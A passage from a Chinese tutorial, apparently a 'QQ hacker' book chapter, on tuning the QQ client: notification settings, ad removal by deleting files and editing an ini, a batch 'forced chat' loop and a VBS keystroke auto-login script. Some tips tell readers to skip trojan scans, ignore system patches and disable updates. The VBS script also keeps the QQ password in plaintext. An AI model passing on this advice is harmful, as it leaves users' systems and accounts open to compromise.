

图20

然后到“登录设置”，如图21，取消“显示拍拍交易提醒”、“登录接受QQ空间更新提示”。



图21

接着到“声音设置”，如图22，取消“开启提示音”；开启“屏蔽所有好友的炫铃”。



图22

然后再到“安全设置”－“查杀木马”这里，选择“登录前不查杀”、“不需要提示，我不想修复系统漏洞”（前提是确保你的电脑为安全）。



图23

接着进入“自动更新设置”，选择“关闭自动更新”，如图24。



图24

在这些设置完成后，先点击“应用”，再点击“确定”即可。另外，我们还可以在QQ好友列表的空白处按鼠标右键，选择“显示清爽资料”和“只显示在线用户”。通过以上设置，相信你的QQ在运行速度方面已经有所提升，大家可以根据自己的需求按前面的步骤进行设置。

#### 1.1.10 手工为QQ除广告

QQ广告不光烦人，而且读取的时候还影响运行速度。但去除QQ广告却是会员特权，我们普通用户难道就束手无策么？这里就教给大家如何手工去除QQ中烦人的广告！

- 1. 屏蔽QQ迷你首页

在QQ图标点击鼠标右键，在属性中单击“查找目标”，如图25，来到QQ的安装目录。然后按CTRL+F使用系统的文件搜索功能，输入“要搜索的文件或文件夹名为”“QQexternal”，再按“立即搜索”。系统会为你找到QQexternal.exe和QQexternal.tlg两个文件，如图26，这两个文件就是QQ的迷你首页程序。只要把这两个文件删除，就再也不会弹出迷你首页了！



图25

## 第一章 QQ版黑客之黑客入门



图26

#### 2、聊天广告去除

现在进入QQ的时候虽然不会弹出迷你首页了，但在聊天窗口却还是有广告出现，我们也来去除它吧。首先进入QQ的安装目录，然后打开目录如：“Tencent\QQ\NewSkins\QQ2008\IMSkin\IMSkin.ini”中的INI文件。其中“QQ2008”这个文件夹是你目前使用的QQ皮肤，如果找不到，可以按前面的方法使用系统搜索。

使用记事本打开IMSkin.ini，然后按 CTRL+F 查找 rightSpace 字符串，如图27，并把 **rightSpace=0** 改为 **rightSpace=-242**。接着查找 menuShowBand 字符串，把 **menuShowBand = 1** 改为 **menuShowBand = 0**（空格不能去掉）。保存之后再重启QQ，看看吧，聊天窗口上的广告消失了。



图27

#### 1.1.11 批处理实现强制聊天

网上流传着许多QQ强制聊天工具，其实这些工具的原理都是非常简单的，一般就是利用在浏览器的地址栏输入“tencent://Message/?Uin=QQ号”来实现的。既然原理我们知道了，那就可以利用cmd来编写一个小程序。

建立一个文本文档，把以下代码写入，如图28，然后保存，并把格式由 .txt 改为 .cmd，这样才能运行，如图29。运行程序后输入对方的QQ号码，然后按回车，看，临时对话框弹出来了，如图30。

```bat
@Echo Off
:send
title QQ强制聊天
echo 欢迎使用QQ强制聊天工具！制作人：***
Set /p num= 请输入对方的QQ号码:
If /I "%num%"=="n" Exit
start tencent://Message/?Uin=%num%
cls
Goto send
```

title 后面接标题，echo 后面为介绍，汉字内容可以自由更改。







#### 1.1.12 VBS实现自动登录

虽然QQ自带自动登录功能，但是它的自动登录只能锁定一个QQ号，使用起来多少有些不方便。不如我们亲手打造一个一键登录QQ的程序，用VBS就可以轻松实现这个功能。

新建一个文本文档，写入如下程序代码，并将“QQ.exe所在的路径”改为你安装的QQ的路径；“QQ号码”处填写你要一键登录的QQ号码；“QQ密码”处填写你的QQ号码对应的密码，如图31。



```vb
Dim Program1
Program1 = "QQ.exe 所在的路径"
Set WshShell=createobject("wscript.shell")
Set oExec=WshShell.Exec(Program1)
WScript.Sleep 2000
WshShell.AppActivate "QQ登录"
WshShell.SendKeys "+{TAB}"
WshShell.SendKeys "QQ号码"
WScript.Sleep 200
WshShell.SendKeys "{TAB}"
WshShell.SendKeys "QQ密码"
WScript.Sleep 200
WshShell.SendKeys "{ENTER}"
```

填写完成后另存为 `.vbs` 文件，这样一来，只需要双击这个文件就可以实现一键登录你的QQ了。我们可以在这个文件上按鼠标右键，选择发送到“桌面快捷方式”，然后对这个快捷方式进行属性设置，可以定义一个快捷键，例如 F2，如图32。



下次想要登录，只需要按一下 F2 就可以直接登录QQ了。你还可以通过更改图标，如图33，为你的一键登录换个样子，比如下载一个QQ的 ico 图标。如果你想实现开机自动登录QQ，只需将此文件拖到“开始”－“程序”－“启动”中，以后开机，你的QQ将会自动登录。

